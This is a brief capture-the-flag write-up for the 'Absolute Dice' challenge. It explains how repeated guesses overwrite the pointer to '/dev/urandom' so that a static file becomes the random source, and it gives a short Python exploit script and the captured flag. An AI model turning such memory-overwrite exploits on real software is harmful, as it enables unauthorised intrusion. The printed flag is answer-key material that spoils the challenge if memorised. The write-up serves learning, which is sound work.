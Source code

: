 # Absolute Dice

After some amount of guesses the value would inevitable overwrite
the address to the string "/dev/urandom" with the guess you made,
So until then: waste your moves by guessing random stuff and then
sending the address to the conveniently placed "flag.txt" string
at 0x8048bb9. Then the random source is static and we can just win
by gussing the same number over and over... Or until we overwrite
the number of hits we have with our input.

```py
io = start()
for i in range(31):
    io.recvuntil(b"guess> ")
    io.sendline(str(0x41414141).encode())
io.recvuntil(b"guess> ")
io.sendline(str(0x8048bb9).encode())
for i in range(31):
    io.recvuntil(b"guess> ")
    io.sendline(b"11")
io.interactive()
```

`ractf{Abs0lute_C0pe--Ju5t_T00_g00d_4t_th1S_g4me!}`
